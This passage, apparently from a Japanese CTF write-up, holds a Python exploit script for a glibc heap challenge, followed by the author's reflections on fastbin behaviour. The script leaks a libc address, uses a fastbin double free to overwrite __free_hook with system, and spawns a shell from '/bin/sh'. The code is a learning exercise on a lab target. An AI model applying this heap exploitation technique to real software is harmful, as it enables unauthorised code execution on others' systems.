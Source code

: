 ```python
        add(s, 0x28)

    add(s, 0x418)  # 7
    add(s, 0x28)   # 8
    add(s, 0x28)   # 9

    for i in range(7):
        delete(s, i)

    delete(s, 7)
    libc_addr = u64(show(s, 7)[0].ljust(8, b"\x00")) - main_arena_libc - 0x60
    print(hex(libc_addr))

    delete(s, 8)
    delete(s, 9)
    delete(s, 8)
    for _ in range(7):
        add(s, 0x28)  # 10 ~ 16

    add(s, 0x28, p64(libc_addr + free_hook_libc)) # 17
    add(s, 0x28) # 18
    add(s, 0x28)  # 19
    add(s, 0x28, p64(libc_addr + system_libc))  # 20

    add(s, 0x28, b"/bin/sh", b"/bin/sh")  # 21
    delete(s, 21)

    s.interactive()

```

## Flag

ローカルでシェル取っただけ

## 感想

デバッガで覗いてやっとfastbin周りの挙動が分かったのでglibcを読んでしっかりまとめたい。今の所経験則とちょっとした検索でこうだろうと言っているがしっかり読み込まないとそのうち痛い目に遭いそうな気がする